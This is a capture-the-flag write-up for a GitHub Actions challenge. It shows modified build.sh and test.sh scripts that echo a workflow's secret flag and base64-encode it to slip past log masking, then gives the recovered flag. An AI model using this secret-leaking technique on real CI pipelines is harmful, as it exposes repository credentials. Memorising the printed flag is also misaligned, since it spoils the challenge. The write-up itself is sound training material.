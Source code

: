 # Fork Knife

Head over to the [challenge-2](https://github.com/OctoHigh/challenge-2-linpeiyu164) repository

Again, we can see that a workflow will be triggered upon a pull request. In particular, the secret flag is again set as an environment variable:

```
- name: Run build & tests
    id: build_and_test
    env:
    EXPECTED_OUTPUT: ${{ secrets.FLAG }}
    run: |
    /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh
```

We can try to do `echo $FLAG | base64` to leak the flag in the logs as we did in Comments by changing build.sh and test.sh.


build.sh
```
#!/bin/bash

EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Compile the C++ program
g++ -o submission submission.c

# ./submission

# ACTUAL_OUTPUT=$(cat "output.txt")

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "$EXPECTED_OUTPUT"
    # echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```

test.sh
```
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

echo "$ACTUAL_OUTPUT" | base64

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Resulting logs:

![Alt text](Images/image3.png)

Flag: EKO{pr3v3nt_PWN_r3qu3stS}
